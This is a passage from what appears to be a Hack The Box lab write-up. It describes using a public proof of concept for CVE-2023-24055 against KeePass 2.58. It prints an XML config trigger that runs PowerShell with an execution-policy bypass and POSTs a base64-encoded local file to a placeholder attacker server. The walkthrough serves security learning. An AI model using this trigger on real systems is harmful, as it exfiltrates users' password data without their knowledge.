 ![placeholder](assets/img/htb/fluffy/fluffy-cve.png "Upgrade notice")

In addition the version `2.58` for Keepass was visible which led me to think that this [PoC](https://github.com/alt3kx/CVE-2023-24055_PoC) would have led me to command execution. Inside this PoC there was a way to include a command into the config file of KeePass.

```xml
<Parameter>PowerShell.exe</Parameter>
<Parameter>-ex bypass -noprofile -c Invoke-WebRequest -uri http://attacker_server_here/exploit.raw -Method POST -Body ([System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes('c:\Users\John\AppData\Local\Temp\exploit.xml'))) </Parameter>
<Parameter>False</Parameter>
<Parameter>1</Parameter>
```
